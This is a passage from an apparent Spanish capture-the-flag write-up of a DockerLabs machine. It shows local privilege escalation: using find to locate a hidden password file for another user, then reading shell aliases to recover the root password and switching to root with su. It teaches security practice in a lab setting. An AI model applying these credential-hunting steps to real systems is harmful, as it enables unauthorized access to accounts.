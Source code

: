 Tiene un archivo llamado `.misecreto`.
```python
pedro@2203e11d1fc7:~$ ls -a ...
.  ..  .misecreto
pedro@2203e11d1fc7:~$ 
```

Tendremos que buscar...
```python
pedro@2203e11d1fc7:~$ cat .../.misecreto
Consegui el pass de juan y lo tengo escondido en algun lugar del sistema fuera de mi home.
```


```python
pedro@fda7befa890c:~$ find / -name "*juan*" -type f 2> /dev/null 
/var/mail/.pass_juan
/usr/share/zoneinfo/America/Tijuana
pedro@fda7befa890c:~$ cat /var/mail/.pass_juan 
ZWxwcmVzaW9uZXMK
pedro@fda7befa890c:~$ 
```
Usamos este comando para buscar de forma recursiva en el sistema de archivos ("/") todos los archivos ("-type f") cuyo nombre contenga "juan" ("-name "_juan_"") y redirige los errores ("2>") al dispositivo nulo ("/dev/null").

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5efe40cc-55e8-4aea-8329-7c8ab0f04394)

Y de esta forma pasamos al usuario `juan`.

#### Juan
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d94b725d-9a33-4914-9fd2-8abb4aa12214)
Encontramos un archivo llamado `.ordenes_nuevas`, Dicho archivo tiene un mensaje que nos dice que tenemos el pass del usuario `root` a mano.

```python
juan@fda7befa890c:~$ alias
alias alert='notify-send --urgency=low -i "$([ $? = 0 ] && echo terminal || echo error)" "$(history|tail -n1|sed -e '\''s/^\s*[0-9]\+\s*//;s/[;&|]\s*alert$//'\'')"'
alias egrep='egrep --color=auto'
alias fgrep='fgrep --color=auto'
alias grep='grep --color=auto'
alias l='ls -CF'
alias la='ls -A'
alias ll='ls -alF'
alias ls='ls --color=auto'
alias pass='eljefe'
juan@fda7befa890c:~$ pass
bash: eljefe: command not found
juan@fda7befa890c:~$ su root
Password: 
root@fda7befa890c:/home/juan# 
```
En ese caso específico, usamos el comando "alias" se usa para definir alias personalizados para comandos en el shell de Unix/Linux. Por ejemplo:

- `l`, `la`, `ll`, y `ls` son alias para el comando `ls` con diferentes opciones de formato y visualización.
- `pass` es un alias para un comando o programa llamado "eljefe".

Usamos la contraseña `eljefe` y podemos escalar a root!.

